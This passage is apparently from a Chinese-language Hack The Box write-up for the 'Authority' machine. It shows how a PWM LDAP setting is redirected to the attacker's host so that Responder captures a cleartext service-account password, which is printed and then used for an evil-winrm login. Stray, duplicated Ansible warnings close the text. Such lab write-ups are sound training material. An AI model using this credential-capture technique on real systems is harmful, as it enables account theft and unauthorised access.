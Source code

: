 
## Initial Access

可以在上图的WARN看到LDAP服务器 `ldaps://authority.authority.htb:636`。找到配置尝试添加kali为LDAP服务器。


![HTB-Authority-8443-ldap-setting](./evidence-img/HTB-Authority-8443-ldap-setting.png)

执行`sudo responder -I tun0 -v`，然后点击 `Test LDAP Profile`，可以收到明文凭据 `svc_ldap:lDaP_1n_th3_cle4r!`：
```bash
（略）
[+] Servers:
（略）
    LDAP server                [ON]
（略）
[+] Listening for events...                                                                                         

[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
（略）
``` 

由于开放了5985端口，尝试 `evil-winrm` 连接：
```bash
┌──(venv-ansible)─(kali㉿kali)-[~/HTB/Authority]
└─$ evil-winrm -i 10.10.11.222 -u svc_ldap -p lDaP_1n_th3_cle4r!
（略）
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> whoami
htb\svc_ldap

*Evil-WinRM* PS C:\Users\svc_ldap\Downloads> whoami /all

USER INFORMATION
----------------

User Name    SID
============ =============================================
htb\svc_ldap S-1-5-21-622327497-3269355298-2248959698-1601


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
```

[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available